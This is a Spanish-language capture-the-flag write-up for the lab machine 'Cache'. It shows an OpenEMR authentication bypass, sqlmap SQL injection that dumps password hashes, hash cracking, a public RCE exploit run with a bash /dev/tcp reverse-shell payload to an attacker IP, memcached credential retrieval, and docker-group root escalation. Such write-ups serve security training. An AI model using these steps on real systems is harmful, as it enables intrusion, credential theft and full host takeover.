# Cache

**OS**: Linux \
**Dificultad**: Medio \
**Puntos**: 30

## Resumen

- Bypass Authentication (OpenEMR)
- SQL Injection (OpenEMR)
- Remote Code Execution (OpenEMR)
- Memcached
- Docker Priv Esc

## Nmap Scan

`nmap -Pn -sV -sC -p- 10.10.10.188`

```
Nmap scan report for 10.10.10.188
Host is up (0.078s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:2d:b2:a0:c4:57:e7:7c:35:2d:45:4d:db:80:8c:f1 (RSA)
|   256 bc:e4:16:3d:2a:59:a1:3a:6a:09:28:dd:36:10:38:08 (ECDSA)
|_  256 57:d5:47:ee:07:ca:3a:c0:fd:9b:a8:7f:6b:4c:9d:7c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Cache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeración

Enumerando la página web que se encuentra en el puerto 80 podemos ver que en el apartado de **Author** se visualiza un nombre de dominio y también menciona que el autor trabajo en otro proyecto llamado **HMS**.



Podemos hacernos una idea de que ese proyecto esta en otro dominio llamada **hms.htb**. Agregamos los dominios a nuestro archivo **hosts**.

##### /etc/hosts

```
10.10.10.188    cache.htb hms.htb
```

El dominio **cache.htb** nos direcciona a la misma página pero el dominio **hms.htb** nos manda otra aplicación web llamada **OpenEMR**.



## OpenEMR

### Bypass Authentication

Investigando la aplicación nos damos cuenta de que tiene diferentes exploits que se explican en este [articulo](https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf).

Primero haremos bypass del formulario de inicio de sesión y posteriormente sql injection para obtener información de la base de datos.

```
http://hms.htb/portal/account/register.php
http://hms.htb/portal/add_edit_event_user.php
```



```
http://hms.htb/portal/get_profile.php
```



### SQL Injection

Si nos vamos a la ruta que se menciona abajo y le agregamos una `'` al final podemos ver que ocurre un error de sql.

```
http://hms.htb/portal/find_appt_popup_user.php?providerid=&catid=1'
```



Utilizaremos **sqlmap** para automatizar el ataque. Capturamos la request con **BurpSuite** y la guardamos en un archivo para utilizarlo con **sqlmap**.



`sqlmap -r request.txt -p catid --dbms=mysql --dbs`



`sqlmap -r request.txt -p catid --dbms=mysql -D openemr --tables`



`sqlmap -r request.txt -p catid --dbms=mysql -D openemr -T users_secure --columns`



`sqlmap -r request.txt -p catid --dbms=mysql -D openemr -T users_secure -C id,username,password --dump`



Obtenemos el hash del usuario **openemr_admin** y usaremos la herramienta **john** para obtener el password en texto plano.

`sudo john hash.txt -wordlist=/usr/share/wordlists/rockyou.txt`



### Remote Code Execution

Teniendo las credenciales procedemos a realizar un Remote Code Execution.

- `searchsploit openemr 5.0.1`
- `searchsploit -m php/webapps/45161.py`



Ponemos a la escucha nuestro netcat.

`nc -lvnp 1234`

Ejecutamos el exploit.

`python 45161.py http://hms.htb/ -u openemr_admin -p xxxxxx -c "bash -i >& /dev/tcp/10.10.14.251/1234 0>&1"`



## Escalada de Privilegios (User)

Enumerando **/var/www/cache.htb/public_html/jquery** podemos ver que existe un archivo llamado **functionality.js** el cual contiene el password del usuario **ash**.

`cat /var/www/cache.htb/public_html/jquery/functionality.js`



Hacemos upgrade de nuestra shell para utilizar el comando **su**.

- `python3 -c "import pty;pty.spawn('/bin/bash')"`
- `su ash`



## Escalada de Privilegios (Root)

### Memcached

Podemos ver que está abierto el puerto **11211** localmente que pertenece al servicio **memcached**. Investigando sobre ese servicio es posible acceder a información almacenada en cache. En este [articulo](https://www.hackingarticles.in/penetration-testing-on-memcached-server/) se explica la forma de utilizarlo.

> Memcached es empleado para el almacenamiento en caché de datos u objetos en la memoria RAM, reduciendo así las necesidades de acceso a un origen de datos externo (como una base de datos o una API).

`netstat -putona`



- `telnet 127.0.0.1 11211`
- `get user`
- `get passwd`
- `quit`



Nos cambiamos de usuario con el comando **su**.



### Docker Priv Esc

Podemos ver que pertenecemos al grupo **docker** podemos explotarlo con ayuda de [GTFOBins](https://gtfobins.github.io/gtfobins/docker/).

- `docker images`
- `docker run -v /:/mnt --rm -it ubuntu chroot /mnt sh`



## Referencias
https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf \
https://www.exploit-db.com/exploits/45161 \
https://www.hackingarticles.in/penetration-testing-on-memcached-server/ \
https://gtfobins.github.io/gtfobins/docker/